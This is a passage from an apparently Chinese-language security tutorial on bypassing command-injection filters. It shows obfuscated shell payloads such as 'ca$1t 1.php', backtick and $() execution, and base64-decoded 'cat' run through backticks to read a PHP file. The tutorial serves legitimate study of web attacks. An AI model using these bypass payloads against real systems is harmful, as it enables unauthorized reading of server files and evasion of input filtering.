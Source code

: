 <figure><img src="../.gitbook/assets/image 7 (1).png" alt=""><figcaption></figcaption></figure>

```sh
ca$1t 1.php
```

<figure><img src="../.gitbook/assets/image 8 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
通过实验发现，上述的x需要与后面的字符不是同一类型，比如后面是字母，那么x就只能是数字。
{% endhint %}

```sh
ca${1}t 1.php
```

<figure><img src="../.gitbook/assets/image 9 (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;background-color:blue;">2）反引号执行，$()执行</mark>

当执行函数比如`system，eval，exec`这些都被过滤了，我们可以考虑执行符反引号\`\`

除此之外，我们也可以用$()来包含要执行的指令

### <mark style="color:green;background-color:blue;">3）Base64编码</mark>

我们可以把关键词，比如cat，或者ls用先用base64编码，再解码执行。

这个步骤可以参考下述代码

```sh
echo 'cat' | base64  //对cat进行base64编码
echo 'Y2F0Cg==' | base64 -d//对Y2F0Cg==进行解码，和cat对上了，说明没有错误
`echo 'Y2F0Cg=='|base64 -d ` 1.php//得出最后的执行代码是这个
```
